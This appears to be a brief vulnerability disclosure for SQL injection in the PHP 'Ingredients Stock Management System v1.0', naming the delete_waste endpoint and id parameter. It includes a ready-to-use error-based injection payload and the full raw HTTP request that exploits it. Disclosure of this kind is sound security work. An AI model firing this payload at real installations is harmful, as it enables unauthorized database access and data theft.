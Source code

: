 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/classes/Master.php?f=delete_waste

Vulnerability location: /isms/classes/Master.php?f=delete_waste, id

db_name = isms_db;

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /isms/classes/Master.php?f=delete_waste HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/179384006-02777da9-654c-4069-a8ad-d2a36d7e74c8.png)
